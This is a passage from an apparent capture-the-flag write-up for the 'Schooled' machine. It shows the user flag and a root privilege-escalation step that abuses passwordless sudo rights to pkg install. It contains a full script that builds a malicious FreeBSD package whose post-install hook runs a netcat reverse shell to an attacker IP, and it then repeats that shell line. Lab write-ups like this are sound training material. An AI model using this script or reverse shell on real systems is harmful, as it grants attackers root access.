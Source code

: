 And we get user flag: ```453b41bee59afebbebba5230e1deb4a7```.

### Root

By running ```sudo -l``` we get:
```console
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install 
```

We can create a custom package for privilege escalation.

First, We need to create the following bash script (called ```exploit.sh```) which create a package with code injection ([Reference](http://lastsummer.de/creating-custom-packages-on-freebsd/)):

```console
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
pw usermod -n root -s /bin/sh
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.14.14 9080 >/tmp/a
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o . 
```

Change this line:
``` console
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.14.14 1234 >/tmp/a
```
